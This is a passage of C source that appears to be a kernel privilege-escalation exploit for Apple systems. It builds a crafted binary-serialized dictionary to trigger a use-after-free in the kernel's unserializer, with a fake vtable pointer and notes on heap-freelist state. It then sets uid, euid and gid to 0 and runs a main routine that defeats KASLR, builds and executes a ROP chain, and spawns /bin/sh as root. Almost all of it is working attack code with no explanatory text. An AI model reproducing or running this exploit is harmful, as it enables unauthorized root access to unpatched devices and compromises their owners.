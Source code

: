 ```
        0x08000002, 0x00000061,             //  1: key "a"                           
        0x04000020, 0x00000000, 0x00000000, //  2: 1[2: OSNumber]                    
        0x08000002, 0x00000062,             //  3: key "b"                           
        0x04000020, 0x00000000, 0x00000000, //  4: 2[4: OSNumber]                    
        0x0c000001,                         //  5: key "a"                           
        0x0b000001,                         //  6: true ; heap freelist: 1[2:]       
        0x0c000003,                         //  7: key "b"                           
        0x0b000001,                         //  8: true ; heap freelist: 2[4:] 1[2:] 
        0x0c000001,                         //  9: key "a"                           
        0x0a000028,                         // 10: 2[10,4: OSData] =&gt; 1[2: contents] 
        0x00000000, 0x00000000,             //     vtable ptr                        
        0x00000000, 0x00000000, 0x00000000, 0x00000000,
        0x00000000, 0x00000000, 0x00000000, 0x00000000,
        0x0c000001,                         // 11: key "b"                           
        0x8c000002,                         // 12: 1[2: contents]-&gt;retain()          
    `}`;
    mach_port_t master_port, iterator;
    kern_return_t kr = IOMasterPort(MACH_PORT_NULL, &amp;master_port);
    if (kr != KERN_SUCCESS) `{`
        return -1;
    `}`
    kr = io_service_get_matching_services_bin(master_port, (char *)data, sizeof(data), &amp;iterator);
    seteuid(0);
    setuid(0);
    setgid(0);
    if (kr == KERN_SUCCESS) `{`
        IOObjectRelease(iterator);
    `}`
    if (getuid() != 0) `{`
        return -1;
    `}`
    return 0;
`}`

int main(int argc, char * argv[]) `{`
    int err;
    sync();

    err = get_kaslr();
    if(err)`{`
        printf("[-] error: get_kaslrn");
        return -1;
    `}`

    err = build_rop();
    if(err)`{`
        printf("[-] error: build_ropn");
        return -1;
    `}`

    err = exec_rop();
    if(err)`{`
        printf("[-] error: exec_ropn");
        return -1;
    `}`

    argv[0] = "/bin/sh";
    execve(argv[0], argv, NULL);    

    return 0;
`}`
```